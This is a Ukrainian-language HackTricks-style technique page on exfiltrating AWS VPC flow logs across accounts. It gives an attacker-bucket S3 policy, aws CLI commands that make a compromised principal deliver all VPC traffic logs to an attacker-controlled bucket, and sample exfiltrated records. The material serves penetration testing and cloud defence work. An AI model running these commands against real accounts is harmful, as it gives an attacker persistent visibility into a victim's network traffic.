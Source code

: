 # AWS - VPC Flow Logs Cross-Account Exfiltration to S3

{{#include ../../../../banners/hacktricks-training.md}}

## Резюме
Зловживати `ec2:CreateFlowLogs` для експорту VPC, subnet або ENI flow logs безпосередньо в S3 bucket, який контролюється зловмисником. Коли роль доставки налаштована на запис у зовнішній bucket, кожне з'єднання, зафіксоване на моніторованому ресурсі, потоково виводиться з облікового запису жертви.

## Вимоги
- Жертва (principal): `ec2:CreateFlowLogs`, `ec2:DescribeFlowLogs`, та `iam:PassRole` (якщо роль доставки потрібна/створюється).
- Attacker bucket: політика S3, яка довіряє `delivery.logs.amazonaws.com` з правами `s3:PutObject` та `bucket-owner-full-control`.
- Опціонально: `logs:DescribeLogGroups`, якщо експортуєте в CloudWatch замість S3 (не потрібно тут).

## Хід атаки

1) **Зловмисник** готує політику для S3 bucket (в акаунті зловмисника), яка дозволяє службі доставки VPC Flow Logs записувати об'єкти. Замініть заповнювачі перед застосуванням:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVPCFlowLogsDelivery",
"Effect": "Allow",
"Principal": { "Service": "delivery.logs.amazonaws.com" },
"Action": "s3:PutObject",
"Resource": "arn:aws:s3:::<attacker-bucket>/flowlogs/*",
"Condition": {
"StringEquals": { "s3:x-amz-acl": "bucket-owner-full-control" }
}
}
]
}
```
Застосувати з облікового запису нападника:
```bash
aws s3api put-bucket-policy \
--bucket <attacker-bucket> \
--policy file://flowlogs-policy.json
```
2) **Victim** (compromised principal) створює flow logs, спрямовані на attacker bucket:
```bash
REGION=us-east-1
VPC_ID=<vpc-xxxxxxxx>
ROLE_ARN=<delivery-role-with-logs-permissions>   # Must allow delivery.logs.amazonaws.com to assume it
aws ec2 create-flow-logs \
--resource-type VPC \
--resource-ids "$VPC_ID" \
--traffic-type ALL \
--log-destination-type s3 \
--log-destination arn:aws:s3:::<attacker-bucket>/flowlogs/ \
--deliver-logs-permission-arn "$ROLE_ARN" \
--region "$REGION"
```
За кілька хвилин у attacker bucket з'являються flow log files, що містять з'єднання для всіх ENIs у монітореному VPC/subnet.

## Докази

Приклад записів flow log, записаних у attacker bucket:
```text
version account-id interface-id srcaddr dstaddr srcport dstport protocol packets bytes start end action log-status
2 947247140022 eni-074cdc68182fb7e4d 52.217.123.250 10.77.1.240 443 48674 6 2359 3375867 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 52.217.123.250 48674 443 6 169 7612 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 54.231.199.186 10.77.1.240 443 59604 6 34 33539 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 54.231.199.186 59604 443 6 18 1726 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 16.15.204.15 10.77.1.240 443 57868 6 162 1219352 1759874460 1759874487 ACCEPT OK
```
Доказ переліку Bucket:
```bash
aws s3 ls s3://<attacker-bucket>/flowlogs/ --recursive --human-readable --summarize
```
## Вплив
- Постійна ексфільтрація мережевих метаданих (source/destination IPs, ports, protocols) для моніторованого VPC/subnet/ENI.
- Дозволяє виконувати аналіз трафіку, ідентифікацію конфіденційних сервісів та потенційний пошук security group misconfigurations ззовні облікового запису жертви.

{{#include ../../../../banners/hacktricks-training.md}}
